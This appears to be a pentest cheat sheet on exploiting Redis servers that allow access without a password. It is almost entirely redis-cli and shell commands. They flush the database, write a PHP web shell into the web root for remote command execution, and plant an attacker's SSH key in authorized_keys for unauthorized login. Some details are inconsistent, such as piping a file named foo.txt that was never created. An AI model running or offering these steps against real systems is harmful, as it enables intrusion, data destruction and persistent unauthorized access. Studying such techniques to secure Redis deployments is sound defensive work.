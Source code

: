 


### Passwordless Authentication
```
redis-cli -h 192.168.217.176
```



### Exploiting Redis for Remote Code Execution

```
redis-cli -h X.X.X.X flushall
redis-cli -h X.X.X.X set pwn '<?php system($_REQUEST['cmd']); ?>'
redis-cli -h X.X.X.X config set dbfilename shell.php
redis-cli -h X.X.X.X config set dir /var/www/html
redis-cli -h X.X.X.X save
```


### Unauthorized SSH Access via Redis Exploitation

https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419


```
ssh-keygen -t ecdsa -s 521 -f key // OR
ssh-keygen -t rsa
cd ~/.ssh/
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt


(echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
redis-cli -h X.X.X.X flushall
cat foo.txt | redis-cli -h X.X.X.X -x set pwn
redis-cli -h X.X.X.X config set dbfilename authorized_keys
redis-cli -h X.X.X.X config set dir /var/lib/redis/.ssh
redis-cli -h X.X.X.X save
```

